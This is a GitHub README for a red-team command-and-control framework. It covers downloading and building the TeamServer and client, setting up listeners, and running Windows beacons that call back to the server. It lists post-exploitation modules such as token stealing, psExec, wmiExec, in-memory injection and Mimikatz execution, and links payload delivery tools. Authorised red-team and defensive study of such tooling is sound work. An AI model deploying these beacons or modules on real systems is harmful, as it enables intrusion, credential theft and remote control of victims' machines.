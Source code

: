 # Exploration C2

## What it is

Exploration is a rudimentary redteam Command and Control framework.  
This repository contains the TeamServer and the Client.  
The release includes the TeamServer the Client with preconfigured certificate as well as the beacon and module for windows for [C2Implant](https://github.com/maxDcb/C2Implant).

```
wget -q $(wget -q -O - 'https://api.github.com/repos/maxDcb/C2TeamServer/releases/latest' | jq -r '.assets[] | select(.name=="Release.tar.gz").browser_download_url') -O ./C2TeamServer.tar.gz
mkdir C2TeamServer && tar xf C2TeamServer.tar.gz -C C2TeamServer --strip-components 1
```

## Introduction

The TeamServer is a stand alone application, coded in c++, that handle listeners. The client, coded in python, communicate with the TeamServer through GRPC.  
Beacons run on the victime host. Each Beacons which connects back to the TeamServer open a new session. This session is used to control the Beacon, send commands and receive results.  
Listener and Beacons can communicate through TCP, SMB, HTTP ,HTTPS and Github issues depending on the situation.

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/ListenersAndSessions.png?raw=true)

A compiled version of the TeamServer is ready to use in the Releases, with some default certificats for GRPC communication and HTTP Listener:

The TeamServer binary is in Release/TeamServer  
it's launched using 

```
cd Release/TeamServer  
./TeamServer
```

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/TeamServerLaunch.png?raw=true)

The Python Client is in Release/Client 
It's launched using 'python3 GUI.py'  

```
cd  Release/Client 
python3 GUI.py
```

## TeamServer Listeners

4 types of listeners are available from the TeamServer: HTTP, HTTPS that start a web server on the given port, TCP that start a TCP server on the given port and GitHub that use GitHub issues from a project like "maxDcb/C2TeamServer" and a personal access token (with issues write rights).

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/AddListener.png?raw=true)

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/AddListenerTypes.png?raw=true)

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/Listeners.png?raw=true)


## Beacons

### Windows Beacon

Winodws Beacons and command modules are compiled separately in another [project](https://github.com/maxDcb/C2Implant), but a compiled version is provided in ./Release/Beacons and ./Release/Modules to be able to use it directly.

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/ReleaseModulesBeacons.png?raw=true)

To launch a beacon available in ./Release/Beacons use the following syntax on a windows machine:  

```
.\BeaconHttp.exe IP_TEAMSERVER PORT_LISTENER http/https
.\BeaconHttp.exe 10.10.52.5 8443 https
.\BeaconHttp.exe 10.10.52.5 80 http
```

When the Beacon is started and connect to the TeamServer, a new session is started from where you can interact with the Beacon:

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/NewSession.png?raw=true)

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/SessionInteract.png?raw=true)

Windows beacon uses primarily windows API and start with no module loaded. Modules are loaded at runtime using "MemoryModule" project to load DLL sent by the TeamServer to the beacon.  

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/loadModule.png?raw=true)

| Modules          |
| :--------------- |
| assemblyExec     |
| upload           |
| download         |
| run              |
| script           |
| inject           |
| pwd              |
| cd               |
| ls               |
| ps               |
| makeToken        | 
| rev2self         | 
| stealToken       | 
| coffLoader       |
| loadModule       | 
| powershell       | 
| kerberosUseTicket| 
| psExec           | 
| wmiExec          | 
| spawnAs          | 
| chisel           | 
| tree             | 

AssemblyExec & Inject, that use Donut project, make it possible to launch binary EXE, DLL, managed or unmanaged direclty from memory on the remote host.

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/AssemblyExecMimikatz.png?raw=true)

Coff, that use COFFLoader project, is used to run Coff files.  

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/coffDir.png?raw=true)

Two side projects can be used to deliver the beacons:
* [PowershellWebDelivery](https://github.com/maxDcb/PowershellWebDelivery)
* [PeDropper](https://github.com/maxDcb/PeDropper)


### Linux Beacon

A very basic Linux Beacons coded in python and can be found here: [C2ImplantPy](https://github.com/maxDcb/C2ImplantPy).

An other very basic Linux Beacons coded in Nim and can be found here: [C2ImplantPy](https://github.com/maxDcb/C2ImplantNim).


## Build the TeamServer

### Sumbodule & External Projects:  

* [Donut](https://github.com/TheWover/donut): Creat shellcode from PE files.  
* [cpp-httplib](https://github.com/yhirose/cpp-httplib): Http and Https Listener.  
* [CoffLoader](https://github.com/trustedsec/COFFLoader): Run object files from [CS-Situational-Awareness-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF).
* [MemoryModule](https://github.com/fancycode/MemoryModule): Load DLL at runtime.
* [UnmanagedPowerShell](https://github.com/leechristensen/UnmanagedPowerShell): Powershell for unmanaged code.
* [cpp-base64](https://github.com/ReneNyffenegger/cpp-base64): base64.
* [json](https://github.com/nlohmann/json): json parser.


### Build

```
sudo apt install gcc-mingw-w64
sudo apt install g++-mingw-w64
sudo apt install golang-cfssl
sudo apt install cmake 

pip3 install pycryptodome
pip install conan
pip install grpcio
pip install PyQt5
pip install pyqtdarktheme
pip install protobuf

conan profile detect

git clone https://github.com/maxDcb/C2TeamServer.git
cd C2TeamServer
git submodule update --init

mkdir build
cd build
cmake ..
make -j4
```

The TeamServer binary is in ./Release/TeamServer  
it's launched using './TeamServer'  

The Python Client is in ./Release/Client  
It's launched using 'python3 GUI.py'  

![alt text](https://github.com/maxDcb/C2TeamServer/blob/master/images/ReleaseTeamServerClient.png?raw=true)


